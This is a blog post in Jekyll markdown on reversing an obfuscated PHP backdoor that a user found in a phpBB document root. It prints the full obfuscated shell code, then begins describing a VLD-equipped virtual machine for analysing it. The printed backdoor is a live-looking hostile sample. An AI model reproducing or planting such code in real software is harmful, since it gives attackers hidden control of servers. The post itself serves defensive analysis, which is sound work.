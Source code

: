 ```yaml
---
date: 2014-08-09 00:00:00 -0500
layout: post
title: Reversing an Obfuscated Backdoor
tags:
  - PHP
  - Obfuscation
  - VLD
---
```


While idling in ##php, every once in a while a user says they've found a
peculiar file in their document root.  Every time, this means it was a shell
that someone had used some sort of an exploit to place on the server. Every
time, the user is adamant that they must know what this code does, instead of
just removing it and finding how it was planted.

Follows is how I would use VLD to deobfuscate its payload.

In this case it was a phpBB install with exploitable custom extensions, and the
user was quite rude.  Both pretty average for this sort of thing.  Getting them
to pastebin the code nearly took longer than deobfuscating it. When I finally
got to see it in all its sneaky glory I was a bit taken aback.

{% highlight php startinline %}

$N2a='dvADoy'&~UNt8GAiXc2G;$DAWi='/>-LEZ#*U4)'^'A[[;+-'.KT0_G;$vhne8tDK=#ZoBluzBk9w'.
     '}owo~sn~wmn'&'}}wm~'.wkto.'{~';$NjKiZ=ohWzjE^')'.Ms_H7;$kZoehuqrTg7='@'./*HBu'.
     '.lY4UiKKR>*/YPZ_a|'H]D^NC';$IJ6e='ND4@ZQ'|'xP]P]Q';$rAMg='((FG*QJZ=)4"'^'XZ! '.
     'u//!'.QHWO;$u4K5='0=BG5 _)+0J='^'FO7(jR:YUU-H';$LilYxx78="5"|'4';'CLF8BrCJLpk'.
     ',#SorX>z-';$sbaJHeSnD='F*'^jq;$eNlv9Ak='|g7'&"i|u";$Sv3SzRL8='_~G`wK'^#nqQrxm'.
     '8:3!;-';$IV='#1#2%'|'a51!E';$BscVpr2Ii=' 00'|'e #';$umdcK=_^'9';$kFDxdcROJ=/*'.
     '90Cg*/km&iw;$X2iSZAD_uGC=';p{bo'^'s$/20';$IleWkFMnzQq='}'&Z;$JD=KD&'}V';'bbsx'.
     '?U8';$pKlSp2V=$DAWi&$vhne8tDK;$rGLmFTY=('$@$'|'- !')|$eNlv9Ak;$IdQ_wkDqX=/*Rd'.
     '{]N3*/$NjKiZ|$Sv3SzRL8;$XWnPayhg=('"!N?7:&I+'.aR8Q9^'AR"'.QhGU.',]>4M?V')&(#U'.
     'ga~}_w{}{'._owns&'gu~}_w{}{'._ownw);$buCz=$kZoehuqrTg7&$IJ6e;$D1=$rAMg&/*hwZM'.
     '0%y6K^|*/$u4K5;$NtOOvR7dR=('P0Z@"&@ F4C '.XxBH.'- 00Z(<Y f A'|#lsVfS785TuIYpT'.
     '@qzJ &H0 ,@1'.QhbB00.'" R ,[%F0e')^('~^$B*O,'.bXPf5lH.'}]LX4$Y`0r-e7z'^/*dBGL'.
     'BXK4.o{*/Klo9k.'*U8g;]wTg*y=?~da%Y]iTV"');if(!$pKlSp2V($rGLmFTY($IdQ_wkDqX(/*'.
     'd[v&U*/$buCz)),('rLO:^}e+w]_Tp?'._ij7Ugk.']'^FuwXkKWMGn.'<c@^'.nQRRd_.'^<')./*'.
     'y*/$IV.$LilYxx78.$BscVpr2Ii.$umdcK))$XWnPayhg($D1,$sbaJHeSnD.('Zj]<o'&#sdZtUt'.
     '~o]nm').$kFDxdcROJ,$IdQ_wkDqX($X2iSZAD_uGC.$IleWkFMnzQq.$JD),$NtOOvR7dR);#Np'.
     'VuQ[$p:PZ>HRfi)+z@??To#EX345]2q-JUq(p&,E+1ah';

{% endhighlight %}

A bit more interesting than most that I've seen.  Usually `eval` or
`preg_replace` or something similar visible - and the code is never so tidy and
unreadable.

I'll admit it, I was a little impressed.

To start all of this I spun up a [vagrant][vagrant_homepage] virtual machine
with the [Vulcan Logic Decoder][pecl_vld] included.  I tested that this was
indeed loaded and working before I even downloaded the nefarious file.  Better
safe than sorry, right?


[pecl_vld]: http://pecl.php.net/package/vld
[zend2_opcodes]: http://php.net/manual/internals2.opcodes.php